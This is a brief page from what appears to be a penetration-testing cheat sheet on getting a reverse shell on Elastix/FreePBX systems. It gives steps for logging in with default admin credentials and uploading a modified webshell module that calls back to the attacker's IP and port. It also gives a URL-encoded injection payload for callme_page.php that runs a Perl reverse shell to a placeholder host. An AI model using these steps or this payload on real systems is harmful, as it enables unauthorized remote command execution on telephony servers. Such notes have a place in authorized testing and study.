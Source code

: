 ```yaml
---
title: Elastic / FreePBX
parent: Shell (Reverse/Others)
layout: default
nav_order: 8
---
```



1. If you have access to Elastix, go to top select Security (press the down arrow if Security not shown) -> Advanced Settings. Make sure Enable Access to FreePBX is on. Can reset password here also.
2. Next login to FreePBX (https://IP/admin) then type in the user and pass (ID usually admin pass usually admin and the password you reset)
3. Change the install.php under freepbx webshell to your IP and port.
4. Zip it: tar -cvzf freepbx-0.1.tar.gz freepbx-0.1
5. Upload the module via module admin and install it

\
Alternatively for v2.2.0: Request this in your browser/Burp Suite. (change IPIPIPIIP and PORTPORT accordingly, if fail maybe try check the callmenum number)
```
https://IP/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22IPIPIPIP%3aPORTPORT%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```